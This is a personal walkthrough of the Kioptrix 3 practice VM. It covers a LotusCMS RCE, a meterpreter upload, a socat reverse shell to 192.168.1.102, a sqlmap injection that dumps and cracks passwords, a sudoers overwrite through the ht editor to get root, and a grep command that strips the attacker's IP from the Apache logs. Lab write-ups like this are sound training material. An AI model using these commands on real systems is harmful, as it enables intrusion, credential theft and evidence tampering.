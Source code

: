 ```yaml
---
layout: post
title: Kioptrix 3 - Walkthrough
---
```


Another VM finished.

## Port 80

The CMS is a very old and crappy software called LotusCMS. So I just searched for LotusCMS in metasploit and found a rce that worked perfectly. Then I uploaded a meterpreter reverse-shell to the gallery/photos folder. Just in case the rce wreaks havoc. To have a backup.


In the file admin.dat I found a user and hash.

```
root:kioptix3/ # cat admin.dat
|318d8dd409db395f0317efa71b3bad13e1fb9857|administrator|bla@bla.com#   
```

I checked the documentation and the source code and found that it encrypts with sha1. So I ran hashcat against it with rockyou and a few other wordlists. But I was not able to retrieve the password. very frustrating.

I also tried several local priv-esc exploits. And none worked.

I tried out a new trick I just learned, to get a interactive tty-shell. Usually I just create a tty-shell, but that can be annoying since you don't have autocomplete and up/down arros.

So I did this

```
wget https://github.com/cornerpirate/socat-shell/raw/master/socat.tar --no-check-certificate
```
Ran the install-script and then followed the instructions and I got a interative shell.

```
./socat tcp:192.168.1.102:4545 exec:"bash -i",pty,stderr,setsid,sigint,sane
```

After moving around in the system for some time I gave up on finding a priv-sec from there. ANd I thought to myself: enumerate enumerate enumarate. So I started looking closer at the CMS and found a possible sql-injection:

```
/gallery/gallery.php?id=1&sort=photoid
```

I ran sqlmap against it and it retrieved the users and even cracked the md5 passwords. What a service.

```
Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+-----------+----------+-----------+------------+-------------+
| userid | photo   | email   | website | username | lastname | joincode | usertype  | password | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+-----------+----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | admin    | User     | <blank>  | superuser | n0t7t1k4 | Super     | 1302628616 | 1           |
+--------+---------+---------+---------+----------+----------+----------+-----------+----------+-----------+------------+-------------+
```


```
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
```

So I logged in to the user loneferret, since it was the user with most privileges.

I checked out what sudo-commands I could run, and found this:

```
sudo -l
```
```
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

So I tried the trick to write my own script and have it run by sudo, but it didn't work.

```
PATH=/home/loneferret/pwn:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then I started investigating `ht`. I created a setuid-binary that I tried to get ht to execute. I thought it would execute it like gdb, but I didn't. So instead I checked out `/etc/shadow`

And tried to crack the root password for some time with hashcat. But it failed.
```
root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1
```

I was unable to edit any files, really annoying. I have no clue why, something messed up with the keybindings. So instead I just created a new file for sudo and then saved it as /etc/sudoers, and gave myself sudo-rights.

```
Defaults env_reset

root ALL=(ALL) ALL
loneferret ALL=(ALL) ALL

```
Then I was able to do sudo su and got root.


## Cleaning up
Then I started to check out the logs just to see how stealthy I had been. I had run dirb, so that had produced about 35000 log entries in /var/log/apache2/error.log. And cleaned up the logs a bit for fun with this command:

```
grep -v '192.168.1.102' /var/log/apache2/error.log > a && mv a /var/log/apache2/error.log
```

